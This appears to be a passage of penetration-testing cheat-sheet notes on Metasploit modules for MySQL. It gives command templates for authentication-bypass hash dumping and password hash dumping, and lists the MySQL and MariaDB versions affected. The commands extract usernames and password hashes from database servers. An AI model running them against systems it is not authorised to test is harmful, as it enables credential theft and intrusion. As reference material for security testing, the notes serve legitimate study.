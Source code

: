 

> [!example]-
>
> ```sh
> msf > use auxiliary/scanner/mysql/mysql_authbypass_hashdump
> msf auxiliary(mysql_authbypass_hashdump) > show actions
>     ...actions...
> msf auxiliary(mysql_authbypass_hashdump) > set ACTION < action-name >
> msf auxiliary(mysql_authbypass_hashdump) > show options
>     ...show and set options...
> msf auxiliary(mysql_authbypass_hashdump) > run
> ```


MYSQL Password Hashdump
([mysql_hashdump](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_hashdump/))

```sh
msf> use auxiliary/scanner/mysql/mysql_hashdump
```


> [!info]-
>
> Exploit a password bypass vulnerability to extract usernames
> and encrypted password hashes
>
> Impacts MySQL versions:
>
> - `5.1.x` before `5.1.63`
> - `5.5.x` before `5.5.24`
> - `5.6.x` before `5.6.6`
>
> And MariaDB versions:
>
> - `5.1.x` before `5.1.62`
> - `5.2.x` before `5.2.12`
> - `5.3.x` before `5.3.6`
> - `5.5.x` before `5.5.23`



> [!example]-
>
> ```sh
> msf > use auxiliary/scanner/mysql/mysql_hashdump
> msf auxiliary(mysql_hashdump) > show actions
>     ...actions...
> msf auxiliary(mysql_hashdump) > set ACTION < action-name >
> msf auxiliary(mysql_hashdump) > show options
>     ...show and set options...
> msf auxiliary(mysql_hashdump) > run
> ```


MySQL Enumeration Module
([mysql_enum](https://www.rapid7.com/db/modules/auxiliary/admin/mysql/mysql_enum/))
(*needs credentials*)
